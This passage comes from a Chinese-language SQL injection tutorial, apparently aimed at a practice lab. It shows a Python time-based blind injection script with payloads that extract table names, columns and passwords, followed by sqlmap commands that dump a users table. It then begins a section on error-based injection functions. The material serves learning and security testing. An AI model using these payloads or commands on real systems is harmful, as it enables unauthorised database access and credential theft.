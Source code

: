 ```
        # payload = "' and if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)
        # payload = "' and if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)
        # payload = "' and if((ascii(substr((select password from users limit 0,1), %d, 1))) > %d,sleep(3),1)--+" % (i, mid)

        try:
            r = requests.get(url+payload,timeout=1.5)
            tail = mid
        except:
            head = mid + 1

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

### **利用sqlmap注入:**

```
python sqlmap.py -u “url” (--technique T) --dbs --batch

python sqlmap.py -u “url” --technique T -D security --tables --batch

python sqlmap.py -u “url” --technique T -D security -T users --columns --batch

python sqlmap.py -u “url” --technique T -D security -T users -C “username,password” --dump --batch
```

# 报错注入

SQL报错注入就是利用数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中。这种手段在联合查询受限且能返回错误信息的情况下比较好用，毕竟用盲注的话既耗时又容易被封。

可能会用到的函数

```
1. concat： 连接字符串功能

2. floor()： 取float的整数值  (向下取整）

3. rand()： 取0~1之间的随机浮点值,rand(0)是伪随机的

4. group by： 根据一个或多个列对结果集进行分组并有排序功能

5. floor(rand(0)*2)： 随机产生0或1
```
